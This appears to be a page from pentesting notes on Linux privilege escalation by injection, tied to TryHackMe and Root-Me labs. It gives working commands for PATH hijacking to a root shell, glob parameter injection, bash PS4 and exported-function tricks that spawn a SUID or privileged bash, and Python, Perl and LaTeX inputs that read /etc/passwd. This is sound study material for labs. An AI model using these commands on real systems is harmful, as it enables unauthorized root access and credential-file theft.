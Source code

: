 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](tasks.md) or a [program with the SUID bit](perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![mustacchio](../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![bash_system_1](../../../_badges/rootme/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../_badges/rootme/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxstrengthtraining](../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.
</div><div>

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```

</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

#### Python input() function

[![python_input](../../../_badges/rootme/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```

#### Perl open() 

[![perl_command_injection](../../../_badges/rootme/perl_command_injection.svg)](https://www.root-me.org/en/Challenges/App-Script/Perl-Command-injection)

The open function is perl can execute commands when we use `|` in the filename. For instance, `| cat /etc/passwd`. The code is not vulnerable if there is a `<` before our filename in the `open` function call.
</div><div>

#### Latex directives

[![latex_input](../../../_badges/rootme/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)

If we can compile LaTeX, we may be able to 

* Execute commands
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)

#### Bash Script Arguments

[![bash_unquoted](../../../_badges/rootme/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div></div>